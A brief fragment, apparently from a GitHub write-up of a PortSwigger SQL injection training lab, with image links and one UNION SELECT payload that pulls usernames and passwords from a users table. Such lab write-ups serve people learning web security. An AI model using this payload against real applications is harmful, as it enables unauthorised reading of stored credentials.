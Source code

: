 '+UNION+SELECT+1,username||'+'||password+from+users-- 
https://github.com/Harbeer-Singh/Portswigger-Labs/blob/main/SQL%20INJECTION/LAB-10/images/1.png
